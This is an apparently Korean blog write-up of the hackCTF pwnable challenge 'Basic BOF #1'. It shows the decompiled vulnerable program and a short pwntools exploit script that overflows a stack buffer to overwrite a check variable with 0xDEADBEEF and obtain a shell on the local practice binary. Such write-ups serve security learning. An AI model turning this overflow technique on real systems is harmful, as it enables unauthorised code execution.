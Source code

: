 ```yaml
---
layout: post
title:  "[hackCTF]Basic BOF #1"
date:   2020-02-09
---
```

hackCTF pwnable 첫번째 문제

## ida
***

  int __cdecl main(int argc, const char **argv, const char **envp)
  {
    char s; // [esp+4h] [ebp-34h]
    int v5; // [esp+2Ch] [ebp-Ch]

    v5 = 67305985;
    fgets(&s, 45, stdin);
    printf("\n[buf]: %s\n", &s);
    printf("[check] %p\n", v5);
    if ( v5 != 67305985 && v5 != -559038737 )
      puts("\nYou are on the right way!");
    if ( v5 == -559038737 )
    {
      puts("Yeah dude! You win!\nOpening your shell...");
      system("/bin/dash");
      puts("Shell closed! Bye.");
    }
    return 0;

코드를 보면 v5가 -559038737일 때 shell을 실행할 수 있다.
우리가 직접 수정할 수 있는 건 s이다.
payload를 v5까지 덮을 수 있도록 만들자.

## exploit.py
***

  #!/usr/bin/python
  from pwn import *

  p = process('./bof_basic')

  payload = "A"*(0x2c-0x4)+p32(0xDEADBEEF)

  p.sendline(payload)

  p.interactive()

-559038737는 hex로 0xDEADBEEF다. p32 방식으로 패킹해서 payload를 만들면 끗.
p32 : little endian 방식으로 패킹해줌 (u32 : 언패킹)
